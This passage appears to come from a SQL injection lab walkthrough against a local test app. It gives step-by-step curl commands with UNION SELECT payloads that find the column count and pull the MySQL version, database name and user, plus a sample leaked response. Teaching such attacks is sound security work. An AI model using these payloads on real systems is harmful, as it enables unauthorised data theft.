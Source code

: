 ✅ **Successfully bypassed authentication!**

#### Attack 2: Data Extraction via UNION-Based Injection

**Step 1: Determine Number of Columns**

```bash
# Test with UNION SELECT to find column count
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT NULL-- "
  }'

# Try different column counts until it works (users table has 7 columns)
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- "
  }'
```

**Step 2: Extract Database Version**

```bash
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT 1,@@version,3,4,5,6,7-- "
  }'
```

**Response:**
```json
{
  "success": true,
  "results": [
    {
      "id": 1,
      "username": "8.0.32",  // MySQL version exposed!
      "email": "3",
      "role": "4"
    }
  ]
}
```

**Step 3: Extract Database Name**

```bash
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT 1,database(),user(),4,5,6,7-- "
  }'
```
